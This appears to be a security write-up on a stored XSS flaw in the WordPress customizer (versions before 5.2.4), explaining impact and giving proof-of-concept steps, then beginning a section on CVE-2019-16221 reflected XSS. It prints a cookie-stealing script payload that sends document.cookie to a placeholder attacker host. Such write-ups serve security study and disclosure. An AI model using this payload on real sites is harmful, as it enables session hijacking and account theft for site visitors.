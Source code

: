 - **Stealing Sensitive Information**: Stored XSS can help us to steal sensitive information from the browser of the user that visits a malicious website containing stored XSS.
- **Cross-Site Request Forgery (CSRF)**: Stored XSS also allows an attacker to induce a victim user to perform actions that they do not intend to which means a CSRF attack.
- **Phishing Attacks**: Stored XSS also redirects the victim to another website to make phishing attacks or can do defacement of the website.

## Detail explanation

To exploit this stored XSS vulnerability, an attacker should have the authenticated user that should have the access to customizer which makes this attack less risky due to the level of access we need to perform this attack. Still, this vulnerability could affect many visitors too, if in case an attacker got access to the customizer and can be able to attack the visitors of that website.

## Proof Of Concept (POC)

First, we need an authenticated user account to have access to the customizer.

![WordPress Version < 5.2.4 & customizer access](images/2022-11-27_16_47_56-Clipboard.png)

WordPress Version < 5.2.4 & customizer access

Now navigate to Appearance → Customize → Menus → Create New Menu → Select Social Links Menu → Add Item → Create Custom Link

![2022-11-27 16_52_10-Clipboard.png](images/2022-11-27_16_52_10-Clipboard.png)

The Navigation Label input box isn’t sanitizing user input. You can even use a simple XSS payload without obfuscation.

![Untitled](images/Untitled%207.png)

Now we can use any attack vector to exploit this vulnerability.  [XSS payloads](http://www.xss-payloads.com/) have a great list of attack payloads.

In the video, I demonstrated a simple cookie-stealing attack. using the below payload

```bash
<script> document.write('<img src=http://attackerIP:PORT?cookie=' + escape(document.cookie))</script>
```

# [CVE-2019-16221](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16221)

## Introduction

The vulnerability was found by an individual in the dashboard of WordPress.

- What is Reflected XSS?
    
    Reflected XSS attacks, also known as non-persistent attacks, **occur when a malicious script is reflected off of a web application to the victim's browser**. The script is activated through a link, which sends a request to a website with a vulnerability that enables the execution of malicious scripts.
    